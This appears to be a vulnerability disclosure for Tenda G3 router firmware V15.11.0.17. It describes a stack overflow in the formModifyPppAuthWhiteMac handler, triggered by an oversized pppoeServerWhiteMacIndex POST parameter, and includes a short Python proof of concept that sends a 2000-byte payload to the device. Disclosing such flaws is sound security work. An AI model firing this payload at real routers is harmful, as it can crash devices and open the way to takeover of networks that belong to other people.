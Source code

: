 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3107.html

## Affected version

G3 V15.11.0.17(9502)

## Vulnerability details

The Tenda G3 V15.11.0.17(9502) firmware has a stack overflow vulnerability in the `formModifyPppAuthWhiteMac` function. The `v3` variable receives the `pppoeServerWhiteMacIndex` parameter from a POST request. However, since the user can control the input of `pppoeServerWhiteMacIndex`, the statement can cause a buffer overflow. The user-provided `pppoeServerWhiteMacIndex` can exceed the capacity of the `sMibName` array, triggering this security vulnerability.

![image-20240417213449033](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417213449033.png)

![image-20240417213440899](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417213440899.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/ModifyPppAuthWhiteMac"
payload = b"a"*2000

data = {
    	'pppoeServerWhiteMacIndex':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
